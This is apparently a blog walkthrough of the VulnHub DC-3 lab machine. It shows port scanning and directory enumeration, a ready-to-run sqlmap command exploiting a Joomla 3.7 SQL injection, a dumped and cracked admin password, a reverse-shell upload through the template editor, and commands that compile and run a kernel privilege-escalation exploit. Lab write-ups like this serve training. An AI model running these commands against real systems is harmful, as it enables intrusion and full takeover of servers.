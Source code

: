 ```yaml
---
layout: "post"
title: "DC 3 Walkthrough"
categories: [vulnhub]
---
```

DC-3 was an easy machine. The website was hosted on Joomla. There was a sqli exploit that gives the admin password. By using an admin panel upload the shell. Priv sec using CVE.  

# Summery

- Portscan
- `Gobuster` to findout directories
- Search exploit
- Use `sqlmap` to get admin password
- Crack the password using `John`
- Login to admin panel and inject reverse shell
- Get reverse shell
- Exploit Kernel using CVE 
- Getting Root
- Flag

# Recon

## Portscan

```
Nmap scan report for 192.168.1.7
Host is up (0.00030s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: Joomla! - Open Source Content Management
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Home

```
## Joomla

When I browse the website, I don't find out anything interesting.
![mainpage](/assets/img/dc-3/mainpage.png)
So, I started the gobuster to find out directories.

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.1.7 -x php,txt,html

/images (Status: 301)
/media (Status: 301)
/templates (Status: 301)
/modules (Status: 301)
/index.php (Status: 200)
/plugins (Status: 301)
/bin (Status: 301)
/includes (Status: 301)
/language (Status: 301)
/README.txt (Status: 200)
/components (Status: 301)
/cache (Status: 301)
/libraries (Status: 301)
/tmp (Status: 301)
/LICENSE.txt (Status: 200)
/layouts (Status: 301)
/administrator (Status: 301)
/configuration.php (Status: 200)
/htaccess.txt (Status: 200)
/cli (Status: 301)
/server-status (Status: 403)

```
# Sqli
The `README.txt` file revels the webserver is running Joomla and its version is 3.7.
![readme](/assets/img/dc-3/readme.png)
I search the exploit on searchsploit and get the exploit for Joomla. 
![searchsploit joomla](/assets/img/dc-3/searchsploit-joomla.png)

The exploit `php/webapps/42033.txt` tells that version is vulnerable to sqli.
So as per exploit I run sqlmap and get admin hash.

```bash
sqlmap -u "http://192.168.1.7/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb -T '#__users' -C name,password --dump 
```

>admin:$2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu

I use `John` to crack the password.
![john](/assets/img/dc-3/john.png)

>admin:snoopy

# Getting reverse shell.
Now I have username and password, I use those to log in to `Joomla`. By using admin panel I can edit the template files. So I paste the source code of php-reverse-shell in error.php of beez3 template and
get a reverse shell.
![shell](/assets/img/dc-3/shell.png)
![nc](/assets/img/dc-3/nc.png)

# Getting Root

I upload [linpeas](https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh) on server and run it. 
![ubuntu](/assets/img/dc-3/ubuntu.png)
The exploit is available on `searchsploit` for *ubuntu 16.04*
![exploit](/assets/img/dc-3/searchsploit-exploit.png)

I download the [exploit](https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip) from net and transfer to server. By executing the exploit I get root access.
```bash
unzip 39772.zip
cd 39772
tar xvf exploit.tar
cd ebpf_mapfd_doubleput_exploit/
./compile.sh
./doubleput
```
![1](/assets/img/dc-3/1.png)
![2](/assets/img/dc-3/2.png)

# The Flag
![root](/assets/img/dc-3/root.png)


 

